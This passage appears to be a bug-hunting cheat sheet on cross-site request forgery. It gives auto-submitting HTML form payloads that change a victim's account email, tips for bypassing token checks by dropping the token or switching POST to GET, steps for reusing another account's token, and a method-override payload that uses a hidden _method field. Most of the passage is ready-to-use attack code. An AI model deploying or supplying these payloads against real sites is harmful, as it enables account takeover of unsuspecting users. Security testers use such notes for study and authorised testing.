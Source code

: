 ```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token validation depends on request method
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
- Tips: change request TO GET in CSRF payloads
-THE exploit

```html
<form action="" method="GET">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token is not tied to user session
- steps                                                                                                                                                                     
1- create two accounts                                                                                                                                                                     
2- go to the first account and change email we will change                                                                                                                                                                     
3- go to second account and try intersept change email then drop request , copy the csrf token                                                                                                                                                                     
4- go to the first account and put csrf token(second account) and try change email is valid or not


### csrf bypass via method override
```
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```

